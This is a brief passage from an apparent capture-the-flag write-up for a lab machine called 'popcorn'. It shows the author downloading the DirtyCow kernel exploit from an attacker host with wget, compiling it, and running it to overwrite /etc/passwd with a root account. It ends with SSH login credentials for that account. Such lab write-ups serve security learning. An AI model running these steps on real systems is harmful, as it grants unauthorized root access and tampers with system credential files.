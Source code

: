 I used the folloing exploit: https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c

```
www-data@popcorn:/dev/shm$ wget http://10.10.14.17:8000/exploits/dirty.c
--2018-11-06 23:53:07--  http://10.10.14.17:8000/exploits/dirty.c
Connecting to 10.10.14.17:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4815 (4.7K) [text/plain]
Saving to: `dirty.c'

100%[======================================>] 4,815       --.-K/s   in 0s      

2018-11-06 23:53:07 (12.6 MB/s) - `dirty.c' saved [4815/4815]

www-data@popcorn:/dev/shm$ gcc -pthread dirty.c -o dirty -lcrypt 
www-data@popcorn:/dev/shm$ ./dirty 
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fibnRbOmlleQM:0:0:pwned:/root:/bin/bash

mmap: b7842000
```

Then we just need to SSH into the box with firefart:hacker to get root.